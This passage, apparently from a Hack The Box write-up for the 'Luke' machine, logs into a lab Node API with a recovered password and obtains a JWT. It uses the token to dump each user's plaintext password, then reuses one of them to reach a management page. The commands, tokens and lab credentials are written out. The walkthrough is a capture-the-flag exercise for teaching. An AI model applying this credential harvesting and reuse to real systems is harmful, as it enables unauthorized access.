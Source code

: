 I can't reach `/users` because it expects an authorization header:

```
{"success":false,"message":"Auth token is not supplied"}
```

But I can log in and get a token with the following POST request;

```console
curl -XPOST http://10.10.10.137:3000/login -H 'Content-Type: application/json' -d '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg"}'
```

I get a JWT token back after logging in:

```
{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU4ODg5NzM0LCJleHAiOjE1NTg5NzYxMzR9.hW8fCbdZ2S9L691y_OG5Kr0Bt2598JYjDlqLVrcOlj4"}
```

To authenticate, I add the following header to the GET request on `/` and `/users`:

```
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU4ODg5NzM0LCJleHAiOjE1NTg5NzYxMzR9.hW8fCbdZ2S9L691y_OG5Kr0Bt2598JYjDlqLVrcOlj4
```

On `GET /`, I now get `{"message":"Welcome admin ! "}`

`GET /users` shows a list of users:

```
curl -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDE3NjA1LCJleHAiOjE1Njg1MDQwMDV9.MXxjA5devINORQHlkRL17JH96uWO1VJIZMKZSDdf--U' http://10.10.10.137:3000/users
[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```

I can query each individual user with `GET /users/<username>` and it returns their password:

```
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
{"name":"Yuri","password":"bet@tester87"}
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```

### Management page

I tried those credentials and found that I can log into the `/management` page with `Derry` (username is case sensitive)

![](/assets/images/htb-writeup-luke/management2.png)

`config.php` and `login.php` contain the source we already have but `config.json` contains another set of credentials:

![](/assets/images/htb-writeup-luke/config.png)
